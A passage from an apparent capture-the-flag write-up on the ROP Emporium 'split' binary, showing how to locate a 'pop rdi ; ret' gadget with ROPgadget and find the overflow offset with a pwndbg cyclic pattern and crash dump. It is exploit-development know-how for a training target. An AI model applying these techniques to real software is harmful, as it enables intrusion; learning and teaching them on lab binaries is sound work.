 We can find the gadget using the `ROPgadget` utility. 

```
$ ROPgadget --binary split | grep "pop rdi ; ret"
0x00000000004007c3 : pop rdi ; ret
```

We can see that the address of the `pop rdi` gadget is `0x00000000004007c3`. 

### Cyclic pattern

We now have to find the offset using a cyclic pattern.

```
pwndbg> cyclic
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Let's provide this as input.

```
pwndbg> run
Starting program: /home/kunal/ropemporium/split/split
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
Thank you!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400741 in pwnme ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
 RAX  0xb
 RBX  0
 RCX  0x7ffff7ea1887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x7ffff7fa9a70 (_IO_stdfile_1_lock) ◂— 0
 RSI  1
 R8   0xa
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
 R10  0x7ffff7d935e8 ◂— 0xf001200001a64
 R11  0x246
 R12  0x7fffffffdda8 —▸ 0x7fffffffdfee ◂— '/home/kunal/ropemporium/split/split'
 R13  0x400697 (main) ◂— push rbp
 R14  0
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc88 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
 RIP  0x400741 (pwnme+89) ◂— ret
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret                                <0x6161616161616166>
    ↓







```